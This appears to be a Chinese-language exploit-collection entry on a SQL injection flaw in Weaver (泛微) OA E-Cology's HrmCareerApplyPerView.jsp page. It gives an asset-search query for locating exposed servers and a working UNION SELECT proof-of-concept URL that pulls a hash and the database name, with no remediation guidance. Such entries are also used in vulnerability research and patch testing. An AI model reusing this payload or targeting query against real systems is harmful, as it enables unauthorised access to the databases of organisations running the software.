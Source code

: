 # 泛微OA E-Cology HrmCareerApplyPerView.jsp SQL注入漏洞

## 漏洞描述

泛微OA E-Cology HrmCareerApplyPerView.jsp 文件存在SQL注入漏洞，攻击者通过漏洞可以获取服务器数据库敏感文件

## 漏洞影响

泛微OA E-Cology 

## 网络测绘

app="泛微-协同办公OA"

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1656734700582-b9fa4bec-ab37-4bbb-b1fb-4ccccda497df.png)

验证POC

```php
/pweb/careerapply/HrmCareerApplyPerView.jsp?id=1 union select 1,2,sys.fn_sqlvarbasetostr(HashBytes('MD5','abc')),db_name(1),5,6,7
```

![img](../../../.vuepress/public/img/1656734767484-f94594ff-00ff-444f-8668-b9108e63ed02.png)